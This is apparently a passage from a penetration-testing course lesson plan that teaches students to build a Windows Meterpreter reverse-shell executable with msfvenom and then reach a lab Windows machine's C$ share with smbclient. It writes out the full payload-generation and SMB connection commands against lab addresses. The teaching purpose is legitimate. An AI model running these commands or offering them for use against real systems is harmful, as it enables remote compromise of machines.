    - Break down the syntax:

      - `msfvenom`: Launches the `msfvenom` program
      - `-p`: Indicates payload
      - `windows/meterpreter/reverse_tcp`: The Metasploit command module
      - `-a x86`: The architecture we will use; the default is `x86`
      - `-e x86/shikata_ga_nai`: The encoder we will use
      - `-f exe`: The file type to create (in this case, `.exe`)
      - `-o /tmp/hack.exe`: Creates an output file, specifying the file name (`hack.exe`) and location (inside the `/tmp` directory)

- Next, display the command that we used in the previous lesson, and have students break it down themselves: 

    - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.22.117.100 LPORT=4444 -f exe R > hack.exe`

      - `msfvenom`: Launches the `msfvenom` program
      - `-p`: Indicates payload
      - `windows/meterpreter/reverse_tcp`: The Metasploit command module
      - `-f exe`: Creates a `.exe` file type


Explain that in the activity that follows, students will build a custom command in an exploitation attack.

Pause to answer any questions before proceeding.

[<- Back to Module Contents](LessonPlan.md#module-day-2-contents)

---

### 03. Class Do: Msfvenom Payloads (0:20)

We will now generate a custom payload with `msfvenom` and use it to gain a Meterpreter shell. 

- **Note:** Students should follow along with their own machine. They can follow along with the guide linked below: 

    - [Class Do: Custom Payload with Msfvenom](Activities/01_MSFVenom/README.md)

1. Make sure you're in your home directory and then generate a Windows Meterpreter payload using the following commands:

    - `cd ~`

    - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.22.117.100 LPORT=4444 -f exe > shell.exe`

    ![A screenshot depicts the results of the commands.](Images/msfvenom.PNG)

2. Next, use SMBClient in Kali to interact with the Windows machine's file system over SMB. To connect to the remote filesystem, type `smbclient //172.22.117.20/C$ -U megacorpone/tstark`.
